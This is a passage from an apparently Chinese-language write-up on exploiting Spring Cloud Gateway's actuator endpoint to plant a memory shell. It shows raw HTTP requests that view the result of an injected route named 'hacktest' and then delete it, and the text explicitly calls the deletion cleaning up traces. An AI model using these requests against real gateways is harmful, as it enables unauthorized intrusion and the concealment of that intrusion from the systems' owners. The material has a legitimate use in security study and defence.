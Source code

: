 查看执行结果

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
![Spring-Cloud-Gateway-MemShell-2](assets/Spring-Cloud-Gateway-MemShell-2.png)

最后可以删除所添加的路由，进行痕迹清理

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

```
![Spring-Cloud-Gateway-MemShell-3](assets/Spring-Cloud-Gateway-MemShell-3.png)
